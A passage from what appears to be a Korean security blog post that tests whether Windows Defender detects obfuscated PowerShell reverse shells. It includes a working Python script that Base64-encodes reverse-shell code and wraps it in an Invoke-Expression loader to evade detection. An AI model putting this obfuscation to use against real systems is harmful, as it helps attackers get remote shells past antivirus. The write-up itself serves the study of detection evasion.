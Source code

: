 <br>

![image](/assets/posts/250902-3.png)

![image](/assets/posts/250902-4.png)

정상적으로 리스닝 중인 공격자 머신에서 PowerShell이 연결되는 것을 확인할 수 있다. 이제 해당 코드를 입력으로 하여 다양한 방법으로 난독화할 수 있는 python 스크립트를 작성해보고, 이를 통해 생성된 난독화된 PowerShell 코드를 실행하여 Windows Defender가 이를 탐지하는지 확인해보았다.

<br>

<br>

# #Obfuscation

## Base64 Encoding

리버스 셸 코드에 Base64 인코딩을 적용하고, 이를 PowerShell에서 제공하는 Base64 복호화 기능을 이용하여 복원한 후, `Invoke-Expression`을 통해 평가되어 실행될 수 있도록 하는 방법이다.

```python
# base64_.py

import base64

def base64_obfuscation(revshell_code):
    revshell_code = revshell_code.replace('\n', '')
    revshell_code = revshell_code.replace('\r', '')
    revshell_code = revshell_code.replace("'", '"')

    b64 = base64.b64encode(revshell_code.encode('utf-8')).decode('utf-8')
    obfuscated_code = f'[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("{b64}")) | Invoke-Expression'

    return obfuscated_code

if __name__ == "__main__":
    with open('revshell.txt', 'r') as file:
        revshell_code = file.read()

        obfuscated_code = base64_obfuscation(revshell_code)

        print(obfuscated_code)

        with open('revshell.ps1', 'w') as file:
            file.write(obfuscated_code)
```